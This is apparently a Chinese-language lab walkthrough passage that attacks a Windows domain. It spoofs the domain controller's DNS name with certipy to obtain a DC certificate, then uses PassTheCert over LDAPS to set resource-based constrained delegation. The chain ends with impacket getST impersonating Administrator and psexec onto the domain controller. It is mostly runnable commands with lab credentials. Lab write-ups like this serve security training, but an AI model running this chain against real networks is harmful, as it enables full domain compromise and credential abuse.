 ```plain
# 添加域名解析
echo "172.22.15.13 XR-DC01.xiaorang.lab" >> /etc/hosts
# 用 certipy 先枚举一遍可利用的证书模版
proxychains certipy find -u 'lixiuying@xiaorang.lab' -p 'winniethepooh' -dc-ip 172.22.15.13 -vulnerable -stdout
# 创建 hacker2$ 用户
proxychains -q certipy account create -user 'hacker2$' -pass 'Admin@123' -dns XR-DC01.xiaorang.lab -dc-ip 172.22.15.13 -u lixiuying -p 'winniethepooh'
# 通过 certipy 创建一个机器账号 hacker2，并且设置 DNS-Host Name 为域控的 XR-DC01.xiaorang.lab

proxychains -q certipy req -u 'hacker2$@xiaorang.lab' -p 'Admin@123' -ca 'xiaorang-XR-CA-CA'

#转换证书格式，密码为空
openssl pkcs12 -in xr-dc01.pfx -nodes -out test.pem
openssl rsa -in test.pem -out test.key
openssl x509 -in test.pem -out test.crt
```

下载：[https://github.com/AlmondOffSec/PassTheCert/](https://github.com/AlmondOffSec/PassTheCert/)  
`靶机存在一处报错，大概是域控制器没有安装用于智能卡身份验证的证书/尝试 Schannel 即通过 Schannel 将证书传递到 LDAPS, 修改 LDAP 配置 (例如配置 RBCD / DCSync), 进而获得域控权限`  
下载上述脚本

```plain
cp passthecert.py ../../
chmod +x passthecert.py
# 利用上面生成的 pfx 证书配置到域控的 RBCD, 注意先得把 pfx 导出为 .key 和 .crt 两个文件
proxychains -q passthecert.py -action whoami -crt test.crt -key test.key -domain xiaorang.lab -dc-ip 172.22.15.13
proxychains -q passthecert.py -action write_rbcd -crt test.crt -key test.key -domain xiaorang.lab -dc-ip 172.22.15.13 -delegate-to 'XR-DC01$' -delegate-from 'hacker2$'
# 最后通过证书认证赋予 hacker2 的 RBCD，以 hacker2 身份请求 ST 票据
# 并通过 psexec 横向域控制器
proxychains -q impacket-getST xiaorang.lab/'hacker2$':'Admin@123' -dc-ip 172.22.15.13  -spn cifs/XR-DC01.xiaorang.lab -impersonate Administrator
export KRB5CCNAME=Administrator.ccache # 导入票据
# psexec 获取域控
proxychains -q impacket-psexec  -k -no-pass -dc-ip 172.22.15.13 administrator@XR-DC01.xiaorang.lab -codec gbk
```
